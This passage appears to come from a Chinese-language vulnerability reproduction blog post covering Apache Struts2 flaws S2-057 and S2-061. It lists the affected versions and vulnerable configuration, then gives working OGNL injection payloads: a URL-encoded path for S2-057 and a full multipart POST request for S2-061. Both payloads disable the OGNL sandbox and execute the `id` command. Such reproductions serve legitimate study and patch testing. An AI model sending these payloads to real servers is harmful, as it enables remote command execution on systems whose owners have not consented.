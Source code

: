 ![image-20201216180957197](https://raw.githubusercontent.com/heriachen/cloudimg/main/img2/image-20201216180957197.png)



## 0X0D S2-057复现

当Struts2的配置满足以下条件时：

 - alwaysSelectFullNamespace值为true
 - action元素未设置namespace属性，或使用了通配符

namespace将由用户从uri传入，并作为OGNL表达式计算，最终造成任意命令执行漏洞。

**影响版本**: 小于等于 Struts 2.3.34 与 Struts 2.5.16

POC

```
/index/%24%7B%28%23dm%3D%40ognl.OgnlContext%40DEFAULT_MEMBER_ACCESS%29.%28%23ct%3D%23request%5B%27struts.valueStack%27%5D.context%29.%28%23cr%3D%23ct%5B%27com.opensymphony.xwork2.ActionContext.container%27%5D%29.%28%23ou%3D%23cr.getInstance%28%40com.opensymphony.xwork2.ognl.OgnlUtil%40class%29%29.%28%23ou.getExcludedPackageNames%28%29.clear%28%29%29.%28%23ou.getExcludedClasses%28%29.clear%28%29%29.%28%23ct.setMemberAccess%28%23dm%29%29.%28%23a%3D%40java.lang.Runtime%40getRuntime%28%29.exec%28%27**id**%27%29%29.%28%40org.apache.commons.io.IOUtils%40toString%28%23a.getInputStream%28%29%29%29%7D/actionChain1.action
```



![image-20201217094755455](https://raw.githubusercontent.com/heriachen/cloudimg/main/img2/image-20201217094755455.png)



## 0X0E S2-061复现

S2-061是对S2-059的绕过，Struts2官方对S2-059的修复方式是加强OGNL表达式沙盒，而S2-061绕过了该沙盒。该漏洞影响版本范围是Struts 2.0.0到Struts 2.5.25。

发送如下数据包，即可执行`id`命令：

```
POST /index.action HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Length: 829

------WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Disposition: form-data; name="id"

%{(#instancemanager=#application["org.apache.tomcat.InstanceManager"]).(#stack=#attr["com.opensymphony.xwork2.util.ValueStack.ValueStack"]).(#bean=#instancemanager.newInstance("org.apache.commons.collections.BeanMap")).(#bean.setBean(#stack)).(#context=#bean.get("context")).(#bean.setBean(#context)).(#macc=#bean.get("memberAccess")).(#bean.setBean(#macc)).(#emptyset=#instancemanager.newInstance("java.util.HashSet")).(#bean.put("excludedClasses",#emptyset)).(#bean.put("excludedPackageNames",#emptyset)).(#arglist=#instancemanager.newInstance("java.util.ArrayList")).(#arglist.add("id")).(#execute=#instancemanager.newInstance("freemarker.template.utility.Execute")).(#execute.exec(#arglist))}
------WebKitFormBoundaryl7d1B1aGsV2wcZwF--
```
